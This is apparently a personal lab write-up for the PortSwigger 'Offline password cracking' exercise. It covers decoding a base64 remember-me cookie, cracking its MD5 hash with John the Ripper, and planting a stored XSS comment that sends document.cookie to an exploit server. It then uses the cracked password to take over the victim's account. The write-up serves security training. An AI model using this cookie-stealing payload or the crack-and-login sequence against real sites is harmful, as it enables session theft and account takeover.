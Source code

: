 ### Offline password cracking : PRACTITIONER

---

My credentials `wiener:peter` and victim username `carlos`.
- First thing's first, login as `wiener` and observe the stay logged in cookie using BURPSUITE PROXY HTTP history feature.

![lab11-login](./screenshots/lab10-login.png)

See that the `GET` request to fetch the user has a cookie called `stay-logged-in`.

![](Pasted-image-20230702175008.png)

Similar to [[Portswigger/Authentication/Lab 10|Lab 10]], this cookie is constructed as the base64 encoding of the username + ':' + MD5Hash(password).
```
stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw;
```

Decoding it using the Base64 command line tool.
``` bash
echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" > cookie.txt | base64 cookie.txt -d
```
- Writing the cookie first into a file `cookie.txt`, then using the pipe operator to take the contents of the file and decode it.

This outputs the following:
```
wiener:51dc30ddc473d43a6011e9ebba6ca770
```
- This means the cookies content consists of the username, `:`, and something encoded.

Checking its length: 
```bash
cookie="51dc30ddc473d43a6011e9ebba6ca770" 
echo -n "$cookie" | wc -c
```
- This outputs 32, and since it consists of the hexadecimal characters, then it is $32*4=128$ bits, so its probably an `MD5` hash.

Using John the Ripper tool to unhash this string. We first need to store it in a file.
```bash
echo "wiener:51dc30ddc473d43a6011e9ebba6ca770" > hash
john --format=raw-md5 hash
```
- This outputs the following:
```bash
wiener:peter
```

This means that the cookie is stored as follows:
```
base64(username:MD5(password))
```

> Next step, is to check the XSS vulnerability in the comment section. Trying a simple alert payload does the job.

```
<script>alert()</script>
```

![](Pasted-image-20230702175307.png)

Posting the comment and visiting the page again pops up the alert.
```
<script>alert(document.cookie)</script>
```
- Trying to display the cookie using the alert.

![](Pasted-image-20230702175741.png)

This displays the same cookie as the one in the GET and POST requests.
- This is now a stored XSS attack, but we need that to work for the user carlos.
- To do that, we need to send that pop up somewhere where we can see it: the exploit server logs.

> To do that, instead of the `alert` function, send the cookie using the `document.location` javascript property. This property loads and changes the URL. We can also add strings and assign ones to it.

Therefore, our payload for the comment will be as such:
```
<script>document.location='exploit-server-url'+document.cookie</script>
```

![](Pasted-image-20230702180219.png)

Filling in the URL:
```
<script>document.location='https://exploit-0a000015043e518182e2285a014c0022.exploit-server.net/exploit'+document.cookie</script>
```
- Adding this payload as a comment on one of the posts then checking the exploit server logs.

![](Pasted-image-20230702180524.png)

We see the same IP address and that one has the stay logged in cookie as the one we used for weiner.
- However, the before last line contains a different IP address with a different value for the stay logged in cookie.
```
stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

Following the same steps as the cookie above, we first base64 decode it.
``` bash
echo "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz" > cookie.txt | base64 cookie.txt -d
```

> This results in: `carlos:26323c16d5f4dabff3bb136f2460a943`.

Meaning we obtained the cookie for the user `carlos`, now we need to find the string that when MD5 hashed gets this hash `26323c16d5f4dabff3bb136f2460a943` using John the Ripper.
``` bash
echo "carlos:26323c16d5f4dabff3bb136f2460a943" > hash
john --format=raw-md5 hash
```
- Storing it first in a file.

> Took too long, so I went to this [website](https://md5decrypt.net/en/) to complete it faster.

![](Pasted-image-20230702181224.png)

Revealing the password as `onceuponatime`.
- Logging in as carlos and deleting the account completes the lab.

---
